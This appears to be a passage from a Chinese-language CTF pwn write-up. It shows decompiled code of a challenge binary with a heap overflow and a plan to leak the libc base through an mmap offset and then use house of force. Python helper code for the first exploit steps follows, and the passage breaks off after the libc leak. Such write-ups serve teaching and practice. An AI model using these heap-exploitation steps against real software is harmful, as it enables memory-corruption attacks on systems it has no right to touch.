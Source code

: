 ```plain
  if ( !*i )
    exit(0);
  printf("bin addr %p\n", *i);
  puts("content");
  read(0, (void *)*i, 0x50uLL);    // 堆溢出
  puts("done");
  return __readfsqword(0x28u) ^ v4;
}
```

```plain
unsigned __int64 fake_show()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts(&byte_D93);           //'\n'
  return __readfsqword(0x28u) ^ v1;
}
```

### 思路

这个程序对申请chunk的大小没有要求，只有add函数  
所以这里先用mmap获取libc\_base,在打个house of force

### 详细流程

首先程序申请完堆块后就会把堆块地址打印出来，所以这里直接用返回堆块的地址

```plain
def add(size,content):
    ru('2:puts\n')
    sl(str(1))
    ru('size\n')
    sl(str(size))
    ru('0x')
    data_ptr=int(p.recv(12),16)
    ru('content\n')
    s(content)
    return data_ptr
```

```plain
libc_base=add(0x200000,'aaaa')+0x200ff0
leak('libc_base',libc_base)
```

直接利用mmap的固定偏移泄露出来libc\_base，这里只是扩展了堆空间，并没有申请chunk  
如果下一步正常申请的话，还是可以看到正常的top chunk的

